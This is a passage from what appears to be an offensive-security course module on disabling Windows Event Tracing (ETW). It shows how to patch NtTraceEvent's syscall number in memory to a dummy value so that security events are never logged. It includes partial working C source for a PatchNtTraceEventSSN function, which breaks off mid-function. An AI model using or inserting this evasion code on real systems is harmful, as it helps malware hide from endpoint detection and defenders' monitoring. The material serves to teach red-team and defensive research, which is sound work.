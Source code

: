 ### Patching NtTraceEvent's SSN

Another relevant function within the ETW internals is the [NtTraceEvent](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/etw/traceapi/event/index.htm) syscall function. The `NtTraceEvent` syscall function is invoked after the execution of the `EtwEventWrite` or `EtwEventWriteFull` functions. Additionally, `NtTraceEvent` is called by various other ETW-related functions.

The `NtTraceEvent` function is responsible for facilitating the transmission of events to the ETW tracing session. Therefore, when this function is blocked from executing its original code, it produces the same outcome as patching the previously mentioned `EtwEventWrite` and `EtwEventWriteFull` functions. In both cases, the events are prevented from being forwarded to the ETW tracing session.

#### NtTraceEvent Patching Logic

Although applying the same patch introduced earlier (`xor eax, eax` followed by `ret`) will work, the patch applied to the `NtTraceEvent` syscall will be different. Since `NtTraceEvent` is a syscall, it's possible to modify its SSN to a random value causing `NtTraceEvent` to fail and return `0xC000000D` or `STATUS_INVALID_PARAMETER` error code. Recall that a syscall's size is 32 bytes and has the following structure:

```
4C 8BD1                  | mov r10,rcx
B8 XXXXXXXX              | mov eax, <SSN> 
0F05                     | syscall
```

If the concept of SSN is new or a refresher is required, it's highly recommended to review _Module 63: Syscalls - Introduction_.

#### PatchNtTraceEventSSN Function

The `PatchNtTraceEventSSN` function searches for the SSN by searching for the `B8` opcodes, which resembles the `mov eax` instruction. After finding the SSN, it calls `VirtualProtect` to allow for writing a new SSN value. The function modifies `NtTraceEvent`'s syscall number and replaces it with `0xFF`, representing a dummy SSN value.

```c
#define x64_RET_INSTRUCTION_OPCODE			0xC3		// 'ret'	- instruction opcode
#define x64_MOV_INSTRUCTION_OPCODE			0xB8		// 'mov'	- instruction opcode

#define	x64_SYSCALL_STUB_SIZE				0x20		// size of a syscall stub is 32

BOOL PatchNtTraceEventSSN() {
	
	DWORD		dwOldProtection      = 0x00;
	PBYTE		pNtTraceEvent	    = NULL;

	// Get the address of "NtTraceEvent"
	pNtTraceEvent = (PBYTE)GetProcAddress(GetModuleHandleA("NTDLL"), "NtTraceEvent");
	if (!pNtTraceEvent)
		return FALSE;

	// Search for NtTraceEvent's SSN pointer
	for (int i = 0; i < x64_SYSCALL_STUB_SIZE; i++){

		if (pNtTraceEvent[i] == x64_MOV_INSTRUCTION_OPCODE) {
			// Set the pointer to NtTraceEvent's SSN and break
			pNtTraceEvent = (PBYTE)(&pNtTraceEvent[i] + 1);	
			break;
		}

		// If we reached the 'ret' or 'syscall' instruction, we fail
		if (pNtTraceEvent[i] == x64_RET_INSTRUCTION_OPCODE || pNtTraceEvent[i] == 0x0F || pNtTraceEvent[i] == 0x05)
			return FALSE;
	}
	
```